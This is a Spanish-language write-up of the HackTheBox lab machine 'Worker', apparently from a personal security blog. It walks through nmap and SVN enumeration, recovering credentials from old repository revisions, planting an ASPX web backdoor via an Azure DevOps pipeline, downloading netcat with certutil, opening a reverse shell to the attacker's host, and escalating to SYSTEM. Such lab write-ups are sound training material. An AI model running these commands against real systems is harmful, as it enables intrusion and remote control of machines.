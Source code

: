 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Worker             |
| Os                     | Windows            |
| Difficulty             | Medium             |
| Points                 | 0                  |
| IP                     | 10.10.10.203       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Worker/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.203
```

![nmap 1](/assets/images/Worker/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.203 -oG allPorts
```

![nmap2](/assets/images/Worker/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p135,5985,8080,29817,29819,29820 10.10.10.203 -oN targeted
```

![nmap3](/assets/images/Worker/nmap3.png)

Echamos un vistazo con whatweb para ver mas sobre los motores de estas paginas:

![whatweb](/assets/images/Worker/whatweb.png)

Como tenemos el puerto 3690 abierto y corresponde a un servidor snv, buscamos en<a href="https://book.hacktricks.xyz/network-services-pentesting/3690-pentesting-subversion-svn-server"> hacktricks</a> la manera en la que podemos testear este servicio.

Lo primero para recopilar informacion sobre este servicio es:

```s
svn ls svn://10.10.10.203 #list
svn log svn://10.10.10.203 #Commit history
svn checkout svn://10.10.10.203 #Download the repository
svn up -r 2 #Go to revision 2 inside the checkout folder
```

Como el primer capitulo nos muestra un potencial subdominio y un dominio, nos lo agregaremos en nuestro /etc/hosts y ahora si podemos ver mas sobre la pagina que tiene y lanzar un whatweb correctamente.

![list](/assets/images/Worker/list_snv.png)

![domain page](/assets/images/Worker/domain_landing.png)

Con los siguientes comandos podemos ver mas sobre la creacion de este sitio y podremos descargarnos el repositorio ahora. Dentro del repositorio hay un txt con otro subdominio potencial.

![Commits](/assets/images/Worker/logs_commit_snv.png)

Procedemos a usar wfuzz para enumerar mas subdominios

```s
wfuzz -c --hc=404 --hw=55 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.worker.htb" http://10.10.10.203
```

![WFUZZ](/assets/images/Worker/wfuzz1.png)

Lo siguiente es que podemos buscar dentro del repositorio palabras clave con:

```s
find \-name \*config\*

grep -r -t -E "user|pass|key"
```

Si buscamos en las versiones anteriores del repo, podremos encontrar unas credenciales.

![Creds](/assets/images/Worker/snv_creds.png)

Podemos intentar entrar a la maquina con evilwin de la siguiente manera:

```s
evil-winrm -i 10.10.10.203 -u "nathen" -p "wendel98"
```

![Azure access](/assets/images/Worker/azure_access.png)

Ahora con estas credenciales tenemos acceso a su plataforma Azure 

Bueno, ahora que tenemos acceso podriamos descargarnos un web backdor de <a href="https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/web-backdoors/asp/cmdasp.aspx">aqui</a>. Para visitarlo y empezar a ejecutar comandos para quizas establecer una reverse shell.

Primero tenemos que crear una rama nueva, cargar el archivo, crear un pull request y despues aceptar el pull request, despues en pipeline, damos click en run y seleccionamos nuestra rama que creamos, ahora podemos recargar la pagina en la ruta http://alpha.worker.htb/cmdasp.aspx.

![Web execution](/assets/images/Worker/web_exe.png)

Ahora lo siguiente seria enumerar informacion e intentar cargar archivos para tener esto en nuestra terminal.

Intente usar powershell y wget para compartirme el archivo de netcat, pero no funciono por lo tanto usaremos certutil.exe de la siguiente manera:

```s
certutil.exe -f -urlcache -split http://10.10.14.29/nc.exe C:\Windows\Temp\nc.exe
#Nos ponemos en escucha en el puerto 443 y ejecutamos:
C:\Windows\Temp\nc.exe -e cmd 10.10.14.29 443
```

![Reverse shell](/assets/images/Worker/rev_shell.png)

De acuerdo al directorio de configuracion de azure, la unidad logica donde se encuentra es en w:\, nos pasamos a esta unidad, si nos metemos en la ruta w:\svnrepos\www\conf podremos ver que hay un archivo de passwd, en el cual esta la credencial que encontramos anteriormente. Esta vez usaremos las de otro usuario para cambiarnos de usuario con:

```s
#Para desplegar informacion del usuario
net user robisl
```

Vemos que este usuario tambien esta en un grupo interesante (Remote Management Use) en el que tenemos el privilegio de que con evil-winrm conectarnos remotamente con este usuairo.

```s
evil-winrm -i 10.10.10.203 -u 'robisl' -p 'wolves11'
```

![robisl access](/assets/images/Worker/robisl_access.png)

Para seguir escalando privilegios, tenemos una via potencial de hacerlo desde las pipelines por que los comandos se ejecutan como administrador.

![Pipeline command](/assets/images/Worker/pipeline.png)

Ya solo nos ponemos en escucha por el puerto 443 y hemos podido acceder como Authority system

![Authority System](/assets/images/Worker/authority_access.png)

Y ahora con este usuario podemos navegar a c: y meternos a administrator para leer la flag.

![Powned](/assets/images/Worker/powned.png)